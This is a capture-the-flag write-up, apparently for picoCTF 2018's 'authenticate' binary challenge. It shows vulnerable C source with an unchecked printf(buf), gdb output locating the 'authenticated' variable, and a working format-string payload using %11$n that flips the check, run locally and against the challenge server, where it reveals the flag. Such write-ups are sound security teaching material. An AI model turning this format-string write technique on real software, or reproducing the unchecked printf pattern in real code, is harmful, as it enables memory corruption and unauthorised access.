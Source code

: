 ![title](images/title.png)

![hint](images/hint.png)

### auth.c

We get a flag() function that prints our flag IF we are "authenticated". Authenticated is declared as int 0. So if we can change that to a value other than 0, we can easily print the flag.

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <sys/types.h>

int authenticated = 0;

int flag() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  printf("%s", flag);
  return 0;
}

void read_flag() {
  if (!authenticated) {
    printf("Sorry, you are not *authenticated*!\n");
  }
  else {
    printf("Access Granted.\n");
    flag();
  }

}

int main(int argc, char **argv) {

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[64];
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  printf("Would you like to read the flag? (yes/no)\n");

  fgets(buf, sizeof(buf), stdin);
  
  if (strstr(buf, "no") != NULL) {
    printf("Okay, Exiting...\n");
    exit(1);
  }
```
This section contains the vulnerability which is a format string exploit again. If we can find the address of authenticate we can write a value to it then print the flag.

```c
  else if (strstr(buf, "yes") == NULL) {
    puts("Received Unknown Input:\n");
    printf(buf);
  }
  
  read_flag();

}
```

**$gdb ./auth**

**$info variables**

```
pwndbg> info variables 
All defined variables:

Non-debugging symbols:
0x080488a8  _fp_hw
0x080488ac  _IO_stdin_used
0x080489c4  __GNU_EH_FRAME_HDR
0x08048b08  __FRAME_END__
0x08049f08  __frame_dummy_init_array_entry
0x08049f08  __init_array_start
0x08049f0c  __do_global_dtors_aux_fini_array_entry
0x08049f0c  __init_array_end
0x08049f10  __JCR_END__
0x08049f10  __JCR_LIST__
0x08049f14  _DYNAMIC
0x0804a000  _GLOBAL_OFFSET_TABLE_
0x0804a038  __data_start
0x0804a038  data_start
0x0804a03c  __dso_handle
0x0804a040  __TMC_END__
0x0804a040  __bss_start
0x0804a040  _edata
0x0804a040  stdin
0x0804a040  stdin@@GLIBC_2.0
0x0804a044  stdout
0x0804a044  stdout@@GLIBC_2.0
0x0804a048  completed
0x0804a04c  authenticated   <=====Our target variable
0x0804a050  _end
pwndbg> 
```
Great we have the address we need to manipulate now lets do some basic testing.

```bash
python -c 'print "AAAA"+"%08x "*20' | ./auth
Would you like to read the flag? (yes/no)
Received Unknown Input:

AAAA080489a6 f7ecf5c0 0804875a ffb811d0 00000000 f7f1c000 ffb81294 00000000 ffb81294 00000000 41414141 78383025Sorry, you are not *authenticated*!
~/ctf_writeups/pico2018/binary/authenticate# 
```

Counting the addresses our A's show up on the 11th spot. This means if we build a payload consisting of our authenticated variables address + %11$n it will write a value to that address.

```bash
python -c 'print "\x4c\xa0\x04\x08"+"%11$n"' | ./auth
~/ctf_writeups/pico2018/binary/authenticate# python -c 'print "\x4c\xa0\x04\x08"+"%11$n"' | ./auth
Would you like to read the flag? (yes/no)
Received Unknown Input:

L�
Access Granted.
Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.
~/ctf_writeups/pico2018/binary/authenticate# 
```

Great, lets do the same thing on the server

<details>
	<summary>Flag</summary>

```
~/ctf_writeups/pico2018/binary/authenticate# python -c 'print "\x4c\xa0\x04\x08"+"%11$n"' | nc 2018shell.picoctf.com 43438
Would you like to read the flag? (yes/no)
Received Unknown Input:

L�
Access Granted.
picoCTF{y0u_4r3_n0w_aUtH3nt1c4t3d_0f2666af}
~/ctf_writeups/pico2018/binary/authenticate#
```
</details>